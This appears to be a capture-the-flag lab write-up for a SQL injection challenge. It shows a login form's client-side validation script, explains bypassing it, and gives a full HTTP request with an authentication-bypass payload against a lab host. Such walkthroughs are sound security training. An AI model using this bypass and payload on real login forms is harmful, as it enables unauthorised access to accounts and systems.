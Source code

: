 # Challenge 3: URL Injection

![Pasted image 20210803163101](Pasted%20image%2020210803163101.png)

Just like challenges 1 and 2, this challenge is compromised of a login form prompting for a user ID and a password. Submission of the form results in an HTTP GET request being sent to the URI `/sesqli3/login` with the query parameters `profileID` and `password`.

However, before the form is submitted, it validates `profileID` and `password` **on the client side** with the following JavaScript function.

```javascript
function validateform() {
        var profileID = document.inputForm.profileID.value;
        var password = document.inputForm.password.value;

        if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
            alert("The input fields cannot contain special characters");
            return false;
        }
        if (profileID == null || password == null) {
            alert("The input fields cannot be empty.");
            return false;
        }
    }
```

Bypass this client-side validation by intercepting the request in BurpSuite or redefining the function to `function() {return true}` in the browser console.

The following injection authenticates.

```http
GET /sesqli3/login?profileID=0%27+OR+1%3D1%3B--&password=pass HTTP/1.1
Host: 10.10.240.237:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.240.237:5000/sesqli3/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```


![Pasted image 20210803171619](Pasted%20image%2020210803171619.png)
